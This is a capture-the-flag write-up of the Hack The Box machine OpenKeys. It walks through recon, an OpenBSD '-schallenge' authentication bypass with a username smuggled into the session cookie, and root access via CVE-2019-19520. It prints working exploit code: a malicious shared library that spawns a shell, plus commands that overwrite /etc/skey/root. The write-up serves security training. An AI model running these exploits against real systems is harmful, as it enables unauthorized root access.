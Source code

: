 ```yaml
---
image: /assets/avatar/assets/openkeys.png
title: OpenKeys Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/openkeys.png"> Writeup for OpenKeys (Hackthebox)
---
```


# OpenKeys

As always... `nmap` that thing:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.199 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -p $ports -sC -sV 10.10.10.199
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
...
```

On port 80, we find a login page and no more info:

![image-20201105213128889](/assets/openkeys/image-20201105213128889.png)

So, we can use `gobuster`, or whatever alternative, to find some not indexed folder:

```bash
gobuster dir -w /usr/share/wordlists/discovery/directory-list-2.3-medium.txt -u http://10.10.10.199
```

![image-20201105213056896](/assets/openkeys/image-20201105213056896.png)

And we found `/includes`, which contains 2 files `auth.php` and `auth.php.swp`, which is a `vim` swap file, and, most importantly, readable! Since it is a binary file which showing the last changes made on a file, we can read them all with:

```bash
>>> vim -r auth.php.swp
...
$cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
...
$_SESSION["username"] = $_REQUEST['username'];
...
>>> strings auth.php.swp | head -n 2
b0VIM 8.1
jennifer
```

So, downloading that file, we can investigate on that:

```bash
file check_auth
...
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
...
```

It is a shared object for OpenBSD, and that means that it could be vulnerable to [an authentication bypass](https://securityaffairs.co/wordpress/94755/security/openbsd-security-flaws.html), and fortunately it is! The only thing to do it's to authenticate with `-schallenge:password` through `burp`:

![image-20201105220647715](/assets/openkeys/image-20201105220647715.png)

This means that the authentication worked! But we don't get any ssh key because no user is specified... The user name found in the `.swp` file was `jennifer`, so we can add `;username=jennifer` to the `PHPSESSID` to make `auth.php` parse it.

```
Cookie: PHPSESSID=...;username=jennifer
```

Copy the ssh key and access with user! Now, let's investigate on how to get `root`. Let's check the OpenBSD version:

```bash
uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

On the openBSD website, there is a [list of vulnerabilities](https://www.openbsd.org/errata66.html) for this version, and the [CVE-2019-19520](https://nvd.nist.gov/vuln/detail/CVE-2019-19520) worked as intended! We need to compile this file on the victim machine:

```c
// swrast_dri.c
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>
static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

This will change the `RUID`, `EUID` and `GUID` to 0, so `root`, when called. After we compile the file:

```bash
cc -fpic -shared -s -o swrast_dri.so swrast_dri.c && rm -rf swrast_dri.c
```

We need to set the `LIBGL_DRIVERS_PATH=.` to make `xlock` use our `swarst_dri.so`, instead of the real one. To do so, we just need to run these simple commands:

```bash
env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
echo id -gn | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display 
# Your password is: EGG LARD GROW HOG DRAG LAIN
echo "rm -rf /etc/skey/root ; echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root ; chmod 0600 /etc/skey/root" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66 
env -i TERM=vt220 su -l -a skey
```

![image-20201106002129492](/assets/openkeys/image-20201106002129492.png)

..profit!
